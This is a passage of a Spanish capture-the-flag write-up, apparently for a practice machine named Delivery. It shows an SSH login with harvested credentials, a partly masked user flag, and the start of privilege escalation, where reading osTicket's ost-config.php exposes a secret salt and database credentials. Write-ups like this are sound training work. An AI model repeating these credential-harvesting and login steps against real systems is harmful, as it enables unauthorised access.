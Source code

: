 ![osTicket3](osTicket3.png)

Al utilizar las credenciales encontradas en el servicio de SSH, hemos tenido éxito y logramos obtener una shell, lo que nos brinda acceso al sistema remoto.

```bash
❯ ssh maildeliverer@10.10.10.222
The authenticity of host '10.10.10.222 (10.10.10.222)' can't be established.
ED25519 key fingerprint is SHA256:AGdhHnQ749stJakbrtXVi48e6KTkaMj/+QNYMW+tyj8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.222' (ED25519) to the list of known hosts.
maildeliverer@10.10.10.222's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul 25 12:21:11 2023 from 10.10.14.138
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

En este punto, podemos obtener la flag `user.txt`.

```bash
maildeliverer@Delivery:~$ cat user.txt 
6162567b03249584****************
```

## Escalación de privilegios

---

Después de una exhaustiva enumeración, encontramos las credenciales para la base de datos de osTicket en la ruta `/var/www/osticket/upload/include/ost-config.php`.

```bash
maildeliverer@Delivery:/var/www/osticket/upload/include$ cat ost-config.php
<?php

[...]

# Encrypt/Decrypt secret key - randomly generated during installation.
define('SECRET_SALT','nP8uygzdkzXRLJzYUmdmLDEqDSq5bGk3');

#Default admin email. Used only on db connection issues and related alerts.
define('ADMIN_EMAIL','maildeliverer@delivery.htb');

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3lpD3sk123!');

[...]
```
